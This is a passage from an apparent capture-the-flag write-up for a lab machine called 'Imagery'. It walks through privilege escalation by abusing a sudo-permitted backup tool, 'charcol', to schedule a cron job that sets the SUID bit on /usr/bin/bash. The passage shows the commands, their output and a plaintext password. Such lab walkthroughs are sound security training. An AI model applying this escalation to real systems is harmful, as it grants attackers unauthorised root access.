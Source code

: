 > it have password but using the mark password we can reset it.
> 

```jsx
$ charcol -R
```

> opening shell and we found a way to change permission
> 

```jsx
mark@Imagery:~$ sudo charcol shell
sudo charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2025-10-25 05:19:45] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol> help
help
[2025-10-25 05:19:56] [INFO] 
Charcol Shell Commands:
...
charcol>
```

> **`charcol> auto add --schedule "* * * * *" --command "chmod 4755 /usr/bin/bash" --name "Set SUID Bash" --log-output "/home/mark/log.txt"`**
> 
- `charcol>` — prompt from a program called `charcol` (looks like a custom scheduler/automation CLI).
- `auto add` — adding a new automated job/task to `charcol`.
- `-schedule "* * * * *"` — Cron-style schedule. `* * * *` = **every minute**.
- `-command "chmod 4755 /usr/bin/bash"` — the shell command that will be executed on that schedule.
    - `chmod 4755 /usr/bin/bash` sets file permissions to `rwsr-xr-x` (more below).
- `-name "Set SUID Bash"` — a friendly name/ID for the scheduled job.
- `-log-output "/home/mark/log.txt"` — redirect or record job output to `/home/mark/log.txt`.

```jsx
charcol> auto add --schedule "* * * * *" --command "chmod 4755 /usr/bin/bash" --name "Set SUID Bash" --log-output "/home/mark/log.txt"
<e "Set SUID Bash" --log-output "/home/mark/log.txt"
[2025-10-25 05:20:57] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 
supersmash

[2025-10-25 05:21:40] [INFO] System password verified successfully.
[2025-10-25 05:21:40] [INFO] Auto job 'Set SUID Bash' (ID: 6eb694b0-d1d5-44db-87be-7c5ca3e5bfed) added successfully. The job will run according to schedule.
[2025-10-25 05:21:40] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod 4755 /usr/bin/bash >> /home/mark/log.txt 2>&1
charcol> exit
exit
[2025-10-25 05:22:14] [INFO] Exiting Charcol shell.
mark@Imagery:~$
```
